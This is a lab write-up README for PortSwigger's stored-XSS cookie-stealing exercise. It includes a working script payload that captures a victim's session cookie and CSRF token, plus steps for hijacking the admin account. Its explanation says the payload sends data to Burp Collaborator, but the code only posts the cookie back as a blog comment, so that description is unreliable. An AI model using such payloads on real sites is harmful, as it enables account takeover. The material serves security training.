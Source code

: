 
# Lab: Exploiting Cross-Site Scripting to Steal Cookies

This README documents the solution and key details for the PortSwigger Web Security Academy lab: **"Exploiting cross-site scripting to steal cookies."**

---

## Lab Overview

- This lab features a stored XSS vulnerability in the blog comments functionality.
- A simulated victim (admin) views all comments after submission.
- The objective is to exploit XSS to steal the victim’s session cookie and impersonate the victim user.

---

## Solution Steps

1. **Prepare Burp Collaborator**

   - Open Burp Suite Professional and navigate to the Collaborator tab.
   - Click "Copy to clipboard" to obtain your unique Burp Collaborator subdomain.

2. **Submit the XSS Payload**

   - Post the following payload as a blog comment, replacing `BURP-COLLABORATOR-SUBDOMAIN` with your Collaborator subdomain:
     ```
     <script>window.addEventListener('DOMContentLoaded' , function(){
     var token = document.getElementsByName('csrf')[0].value
     var data = new FormData()

     data.append('csrf' , token);
     data.append('postId' , 5 );
     data.append('comment', document.cookie);
     data.append('name', 'Harish');
     data.append('email', 'harish@gmail.com');
     data.append('website','http://www.harish.com');
     fetch('/post/comment',{
         method: 'POST',
         mode: 'no-cors',
         body: data
     });
     });
     </script>
     ```
   - This script sends the victim's session cookie to your Collaborator server when their browser renders your comment.

3. **Wait for Victim Interaction**

   - After submitting the payload, return to the Collaborator tab and click "Poll now."
   - Look for HTTP interactions; the victim’s session cookie will appear in the POST body.

4. **Steal and Use Session Cookie**

   - Note the value of the victim’s session cookie from the HTTP request captured by Collaborator.
   - Reload the main blog page, and use Burp Proxy or Repeater to swap your session cookie for the stolen one.
   - Access `/my-account` to verify admin account access and solve the lab.

---

## Alternative Solution

- You could use the XSS to make the victim post their cookie as a comment (CSRF-based), but this is less stealthy and exposes the attack to the victim and admins.

---

## Payload Example

